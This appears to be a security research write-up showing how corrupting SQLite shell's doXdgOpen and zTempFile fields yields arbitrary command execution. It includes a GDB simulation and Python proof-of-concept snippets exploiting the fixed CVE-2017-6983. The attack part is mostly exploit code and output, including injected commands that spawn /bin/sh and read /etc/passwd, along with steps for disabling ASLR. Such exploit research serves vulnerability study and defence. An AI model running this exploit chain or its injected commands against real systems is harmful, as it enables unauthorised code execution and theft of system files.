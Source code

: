 # Corrupting `doXdgOpen` to Attack SQLite

We try two methods to corrupt `doXdgOpen` to build attacks against SQLite, one via GDB simulation and another via a real-world vulnerablitiy. The vulnerability has been fixed so it will not cause immediate threat to exsiting SQLite installations.

With these corruptions attackers can execute arbitrary command on victim systems.

## Attack Simulation via GDB

To quickly confirm the feasiblity of building attacks, we use the GDB debugger to simulate an attacker who can write arbitrary value into arbitrary location through common memory safety issues, like buffer overflow or use-after-free.

In particular, we set `doXdgOpen` to `true` and set `zTempFile` to a malicious string `; echo 'hello'; /bin/sh`. When the execution continues, `echo 'hello'` and `/bin/sh` will be executed.

In the first step, we start an SQLite shell.

```bash
$ sqlite3
sqlite>
```

In another terminal, we attach GDB to the SQLite shell process

```bash
$ sudo gdb -p `pgrep sqlite3`  # make sure only one sqlite3 exists
```

Go to the `main` function frame, and update the two members of `ShellState`:

```bash
(gdb) bt                  # Print backtrace of all stack frames. Content may vary
#0  0x00007f3b44e5807b in __pselect (nfds=1, readfds=0x7ffd187094f0, writefds=0x0, exceptfds=0x0, timeout=<optimized out>, sigmask=0x7f3b45173c20 <_rl_orig_sigset>)
	at ../sysdeps/unix/sysv/linux/pselect.c:48
#1  0x00007f3b45153be9 in rl_getc () from /lib/x86_64-linux-gnu/libreadline.so.8
#2  0x00007f3b45154503 in rl_read_key () from /lib/x86_64-linux-gnu/libreadline.so.8
#3  0x00007f3b45139c82 in readline_internal_char () from /lib/x86_64-linux-gnu/libreadline.so.8
#4  0x00007f3b4513a4ed in readline () from /lib/x86_64-linux-gnu/libreadline.so.8
#5  0x0000000000431b88 in one_input_line (in=0x0, zPrior=0x0, isContinuation=0) at shell.c:656
#6  0x00000000004155b2 in process_input (p=0x7ffd187097c8) at shell.c:18343
#7  0x000000000040a5f7 in main (argc=1, argv=0x7ffd1870adc8) at shell.c:19152
(gdb) frame 7             # select the frame of main, which is #7 here
#7  0x000000000040a5f7 in main (argc=1, argv=0x7ffd1870adc8) at shell.c:19152
19152         rc = process_input(&data);
(gdb) p data.doXdgOpen    # show doXdgOpen before corruption
$1 = 0 '\000'
(gdb) p data.zTempFile    # show zTempFile before corruption
$2 = 0x0
(gdb) set data.doXdgOpen = 1                            # corrupt doXdgOpen
(gdb) set data.zTempFile = "; echo hello; /bin/sh"      # corrupt zTempFile
(gdb) p data.doXdgOpen    # show doXdgOpen after corruption
$3 = 1 '\001'
(gdb) p data.zTempFile    # show zTempFile after corruption
$4 = 0x7f3b44d42990 "; echo hello; /bin/sh"
```

Attack done. Now we can quit GDB.

```bash
(gdb) quit
Quit anyway? (y or n) y
```

Go to the SQLite shell, quit the shell

```bash
sqlite> .exit
sh: 1: xdg-open: not found   #<- reuslt of running "xdg-open "
hello                        #<- result of running "echo 'hello'"
$                            #<- result of runing "/bin/sh"
```

As we can see from the SQLite shell, SQLite executes command `system("xdg-open ; echo 'hello'; /bin/sh")`, which finally creates a terminal for attackers.

## Attack via Real-world (Fixed) Bugs

Attackers can use any memory-safety issues to corrupt `doXdgOpen` and `zTempFile` to achieve arbitrary code execution. These bugs are not rare.

#### 1. Gain arbitrary memory-write primitive

We utilize the following, old vulnerability to construct an attack. More details about this bug is also available via this link.

* [CVE-2017-6983](cve-2017-6983.md) 

#### 2. Compile SQLite

```bash
# in sqlite folder

CC="clang -DSQLITE_DEBUG" ./configure --enable-debug
make
```

#### 3. Proof-of-Concept (PoC)

We exploit the vulnerability twice to corrupt both `p->doXdgOpen` and `p->zTempFile` respectively. We disabled ASLR in this attack, so the address of `p` and faked structures are fixed. The complete PoC can be found in [doXdgOpen-poc.py](./doXdgOpen-poc.py).

Here are a few key steps among this attack

**(1) Corrupt `p->doXdgOpen` to 1**

```py
addr_ShellState = 0x7fffffffcf68		# get this address via GDB
offset_doXdgOpen_ShellState = 0xe

dst_ptr = addr_ShellState + offset_doXdgOpen_ShellState
bad_val = 0x1

# sqlite3_value.zMalloc = dst_ptr       (line 80328 @ sqlite3VdbeMemClearAndResize)
offset_sqlite3_value_zMalloc = 0x28
raddr_sqlite3_value_zMalloc = raddr_sqlite3_value + offset_sqlite3_value_zMalloc
zMalloc_val = dst_ptr
exp = writeVal(exp, raddr_sqlite3_value_zMalloc, zMalloc_val)

# malicious_content = Your-bad-value
exp = writeVal(exp, raddr_malicious_content, bad_val)
```

**(2) Corrupt `p->zTempFile` to `; ls`**

```py
addr_ShellState = 0x7fffffffcf68
offset_doXdgOpen_ShellState = 0xe
offset_zTempFile_ShellState = 0x98


base2 = base + 0x400
dst_ptr = addr_ShellState + offset_zTempFile_ShellState

# sqlite3_value.zMalloc = dst_ptr       (line 80328 @ sqlite3VdbeMemClearAndResize)
offset_sqlite3_value_zMalloc = 0x28
raddr_sqlite3_value_zMalloc = raddr_sqlite3_value + offset_sqlite3_value_zMalloc
zMalloc_val = dst_ptr
exp = writeVal(exp, raddr_sqlite3_value_zMalloc, zMalloc_val)

# put "/bin/bash" after malicious content
raddr_string = raddr_malicious_content + 0x10
exp = writeStr(exp, raddr_string, "--version; cat /etc/passwd")

# malicious_content = Your-bad-value
exp = writeVal(exp, raddr_malicious_content, base + raddr_string)

```

**(3) Trigger the bug twice**

```py
with open('/tmp/exp', 'w') as f:
    f.write("create table t1(c1 char);\n")
    f.write("insert into t1 values(x'" + exp + "');\n")
    f.write("create virtual table a using fts3(b);\n")
    f.write("insert into a values(x'" + valToLittleEndianHex(base, 8) + "');\n")
    f.write("select optimize(b) from a;\n")
    f.write("delete from a;\n")
    f.write("insert into a values(x'" + valToLittleEndianHex(base + safe_space_offset, 8) + "');\n")
    f.write("select optimize(b) from a;\n")
    f.write("select sqlite_version();\n")
```

**(4) Attack**

```bash
# clean up sqlite cache
$ rm -rf ~/.sqlite*

# Need to figure out the correct base address and shellstate address
# Check the CVE link above to figure out how

# generate the exploit poc /tmp/exp
$ python3 ./doXdgOpen-poc.py

# exploit within gdb
$ gdb ./sqlite3
gdb-peda$ r < /tmp/exp

Starting program: /home/hong/sqlite-for-viper/sqlite3 < /tmp/exp
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Runtime error near line 5: bad parameter or other API misuse (21)
Runtime error near line 8: bad parameter or other API misuse (21)
3.40.1
[Attaching after Thread 0x7ffff7dee740 (LWP 50258) vfork to child process 50261]
[New inferior 2 (process 50261)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 50258 after child exec]
[Inferior 1 (process 50258) detached]
process 50261 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Attaching after Thread 0x7ffff7fa1740 (LWP 50261) vfork to child process 50263]
[New inferior 3 (process 50263)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 50261 after child exec]
[Inferior 2 (process 50261) detached]
process 50263 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
xdg-open 1.1.3
[Inferior 3 (process 50263) exited normally]

++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
aclocal.m4        ext            lempar.c            manifest.uuid  peda-session-cat.txt        sqlite3           sqlite.pc.in
art               fts5.c         libsqlite3.la       mkkeywordhash  peda-session-dash.txt       sqlite3.1         src
autoconf          fts5.h         libtool             mkso.sh        peda-session-dbus-send.txt  sqlite3.c         test
config.guess      fts5parse.c    LICENSE.md          mksourceid     peda-session-groups.txt     sqlite3ext.h      tool
config.log        fts5parse.h    ltmain.sh           mptest         peda-session-ls.txt         sqlite3.h         tsrc
config.status     fts5parse.out  magic.txt           opcodes.c      peda-session-sqlite3.txt    sqlite3.lo        VERSION
config.sub        fts5parse.sql  main.mk             opcodes.h      peda-session-vim.nox.txt    sqlite3.o         vsixtest
configure         fts5parse.y    Makefile            parse.c        poc.py                      sqlite3.pc
configure.ac      input          Makefile.in         parse.h        poc-simple.py               sqlite3.pc.in
contrib           install-sh     Makefile.linux-gcc  parse.out      README.md                   sqlite3session.h
doc               keywordhash.h  Makefile.msc        parse.sql      shell.c                     sqlite_cfg.h
doXdgOpen-poc.py  lemon          manifest            parse.y        spec.template               sqlite_cfg.h.in
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
```

## Tips

### Disable ASLR
```
cat /proc/sys/kernel/randomize_va_space
sudo sysctl kernel.randomize_va_space=0 
```

### Get size of a variable/type
```
print sizeof(val)
print sizeof(Type)
```

### Get offside of a member
```
gdb-peda$ p/x &(((Fts3Table *)0)->db)
```

### Clear cache
`rm ~/.sqlite*`
